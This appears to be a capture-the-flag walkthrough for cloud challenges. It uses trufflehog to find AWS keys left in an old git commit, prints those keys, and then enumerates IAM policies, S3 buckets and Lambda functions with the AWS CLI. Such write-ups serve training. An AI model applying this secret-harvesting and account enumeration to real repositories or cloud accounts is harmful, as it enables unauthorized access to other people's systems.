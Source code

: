 Get chest by going left into wall once inside

# AWS CLI Intro
hint 
In the AWS command line (CLI), the Secure Token Service or STS has one _very_ useful function.
(https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/get-caller-identity.html)

![Pasted image 20221210094236](https://user-images.githubusercontent.com/50979196/209573962-f828c95c-8f2a-46e2-81ab-6a8a598019a9.png)

![Pasted image 20221209125337](https://user-images.githubusercontent.com/50979196/209573973-ec192d38-53fe-40ba-a8ef-58c630e2cc53.png)

![Pasted image 20221209125728](https://user-images.githubusercontent.com/50979196/209573990-37759b24-930a-4a22-8b5e-43ac5a92a2fc.png)


![Pasted image 20221209125709](https://user-images.githubusercontent.com/50979196/209574000-ee604f1b-1217-4f3a-98c5-fb802985c293.png)

![Pasted image 20221209130255](https://user-images.githubusercontent.com/50979196/209574007-571d8958-fdc3-4486-9cc5-63b7c44118d1.png)

![Pasted image 20221209130217](https://user-images.githubusercontent.com/50979196/209574023-de9e1707-1037-4029-884b-1f3849c0b917.png)

# Git repo
Use the terminal on top
![Pasted image 20221209133522](https://user-images.githubusercontent.com/50979196/209574036-8e04b5ce-e4e7-43da-8390-c27b5f12b959.png)


```
https://haugfactory.com/asnowball/aws_scripts.git
```
```
## Checkout Old Commits
_From: Jill Underpole
Objective: [Trufflehog Search]
If you want to look at an older code commit with git, you can 
`git checkout CommitNumberHere`.
```
```
## Trufflehog Tool
_From: Jill UnderpolE
Objective: [Trufflehog Search]
You can search for secrets in a Git repo with `trufflehog git https://some.repo/here.git`.
```
![Pasted image 20221209170059](https://user-images.githubusercontent.com/50979196/209574046-70bda1c8-435f-43c7-ba34-683854f949a4.png)


Answer: put_policy.py


# Explotation via AWS CLI

hint , you should know the difference between managed and inline policies
![Pasted image 20221209170746](https://user-images.githubusercontent.com/50979196/209574066-db47d44a-be8e-473e-886a-bf94c66dc4d3.png)

![Pasted image 20221209171505](https://user-images.githubusercontent.com/50979196/209574074-944f97c9-0639-4821-b587-fbbfbf0dccd4.png)

![Pasted image 20221209171519](https://user-images.githubusercontent.com/50979196/209574082-42d4d56f-01e2-4c7c-a379-7a9bcce08ba7.png)
![Pasted image 20221209171532](https://user-images.githubusercontent.com/50979196/209574101-844aa894-3616-4930-9398-4b0df5d2e40f.png)


![Pasted image 20221210085224](https://user-images.githubusercontent.com/50979196/209574110-67483259-49c7-4e27-a54e-7fd61d8b2e76.png)

![Pasted image 20221210085306](https://user-images.githubusercontent.com/50979196/209574120-fb68bdde-76b3-4bb0-be5b-2c7fcd30a438.png)



looking at the commit that trufflehog detects
use the hint from before
git checkout {commit#}
cd into put_policy.py
```
iam = boto3.client('iam',
    region_name='us-east-1',
    aws_access_key_id="AKIAAIDAYRANYAHGQOHD",
    aws_secret_access_key="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",
)

```

![Pasted image 20221210092600](https://user-images.githubusercontent.com/50979196/209574138-dbd4e2fa-feaf-474e-9d76-3d5cd269b93e.png)
```

{
    "UserId": "AIDAJNIAAQYHIAAHDDRA",
    "Account": "602123424321",
    "Arn": "arn:aws:iam::602123424321:user/haug"
}
```

user from above haug
Answer:
```
aws iam list-attached-user-policies --user-name haug
```
![Pasted image 20221210093044](https://user-images.githubusercontent.com/50979196/209574158-255d0ad1-6545-4327-a733-4e654775be13.png)


![Pasted image 20221210093027](https://user-images.githubusercontent.com/50979196/209574165-2c53e377-95c0-43f0-871a-f0e121e4a7b3.png)


![Pasted image 20221210093254](https://user-images.githubusercontent.com/50979196/209574173-cfebde1b-cac6-4bab-9ce0-40e9efc588c0.png)

```
aws iam get-policy --policy-arn "arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY"
```
![Pasted image 20221210093204](https://user-images.githubusercontent.com/50979196/209574182-9565eed4-2322-4d70-a2fb-a3069857ea1c.png)


![Pasted image 20221210093340](https://user-images.githubusercontent.com/50979196/209574187-aad50ed4-7405-458f-afef-d669db90857c.png)


![Pasted image 20221210093551](https://user-images.githubusercontent.com/50979196/209574193-1508493c-55b8-4b57-b236-81984a3d2d71.png)


```
aws iam get-policy-version --policy-arn "arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY" --version-id "v1"
```

![Pasted image 20221210093518](https://user-images.githubusercontent.com/50979196/209574199-f322e7aa-0908-4f02-b64d-446deca8715a.png)


```
aws iam list-user-policies --user-name haug
```

![Pasted image 20221210093819](https://user-images.githubusercontent.com/50979196/209574217-51e9e44d-daed-42ed-8105-ed11bd2b1a78.png)

![Pasted image 20221210093804](https://user-images.githubusercontent.com/50979196/209574229-cea7e610-4953-4fd0-a27b-bedadd681d98.png)

```
aws iam get-user-policy --user-name haug --policy-name S3Perms
```
![Pasted image 20221210094024](https://user-images.githubusercontent.com/50979196/209574258-9b4ab0f4-c19c-4df0-a7f2-5cd5d8618a3c.png)

![Pasted image 20221210094236](https://user-images.githubusercontent.com/50979196/209574239-f5e0375d-c4c8-4a4b-ac3b-0f427ae1d546.png)


```
aws s3api list-objects --bucket "smogmachines3"
```


![Pasted image 20221210094217](https://user-images.githubusercontent.com/50979196/209574276-592a0bf8-be06-45c2-9c4b-d1fc0807a6d2.png)

```
aws lambda list-functions
```

![Pasted image 20221210094530](https://user-images.githubusercontent.com/50979196/209574504-8512969e-872f-4852-ae7b-14225a480300.png)


```
aws lambda get-function-url-config --function-name smogmachine_lambda
```

![Pasted image 20221210103230](https://user-images.githubusercontent.com/50979196/209574495-7447b07b-8417-419f-99b8-c0cf70d04d44.png)

